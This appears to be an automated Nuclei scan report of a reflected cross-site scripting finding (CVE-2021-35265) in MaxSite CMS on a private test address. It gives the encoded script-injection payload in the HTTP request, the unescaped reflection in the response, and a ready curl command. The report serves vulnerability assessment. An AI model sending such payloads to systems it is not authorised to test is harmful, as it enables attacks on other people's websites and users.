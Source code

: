 ### MaxSite CMS XSS (CVE-2021-35265) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-35265**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/page/1%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:12 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | MaxSite CMS XSS |
| Authors | pikpikcu |
| Tags | cve, cve2021, maxsite, xss |
| Severity | medium |
| Description | A reflected cross-site scripting vulnerability in MaxSite CMS before V106 via product/page/* allows remote attackers to inject arbitrary web script to a page." |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-35265](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-35265) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /page/1%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 196
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/page/1</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://github.com/maxsite/cms/issues/414#issue-726249183
- https://nvd.nist.gov/vuln/detail/cve-2021-35265
- https://github.com/maxsite/cms/commit/6b0ab1de9f3d471485d1347e800a9ce43fedbf1a

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' 'http://192.168.198.179:8080/page/1%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)